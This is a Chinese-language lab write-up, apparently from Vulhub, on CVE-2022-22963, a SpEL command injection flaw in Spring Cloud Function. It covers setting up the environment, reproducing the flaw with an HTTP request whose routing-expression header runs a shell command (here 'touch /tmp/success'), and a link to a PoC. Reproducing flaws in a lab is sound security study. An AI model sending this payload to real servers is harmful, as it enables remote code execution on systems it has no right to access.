


# Spring Cloud Function SpEL 表达式命令注入 CVE-2022-22963

## 漏洞描述

Spring Cloud Function 提供了一个通用的模型，用于在各种平台上部署基于函数的软件，包括像 Amazon AWS Lambda 这样的 FaaS（函数即服务，function as a service）平台。

参考链接：

- https://tanzu.vmware.com/security/cve-2022-22963
- https://mp.weixin.qq.com/s/onYJWIESgLaWS64lCgsKdw
- https://github.com/spring-cloud/spring-cloud-function/commit/0e89ee27b2e76138c16bcba6f4bca906c4f3744f

## 环境搭建

Vulhub 执行如下命令启动一个使用 Spring Cloud Function 3.2.2 编写的服务器：

```
docker-compose up -d
```

服务启动后，执行 `curl http://your-ip:8080/uppercase -H "Content-Type: text/plain" --data-binary test` 即可执行 `uppercase` 函数，将输入字符串转换成大写。

## 漏洞复现

发送如下数据包，`spring.cloud.function.routing-expression` 头中包含的 SpEL 表达式将会被执行：

```
POST /functionRouter HTTP/1.1
Host: y:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
spring.cloud.function.routing-expression: T(java.lang.Runtime).getRuntime().exec("touch /tmp/success")
Content-Type: text/plain
Content-Length: 4

test
```



`touch /tmp/success` 已经成功被执行：



## 漏洞 POC

- Spring-cloud-function-SpEL-RCE：https://github.com/chaosec2021/EXP-POC/tree/main/Spring-cloud-function-SpEL-RCE
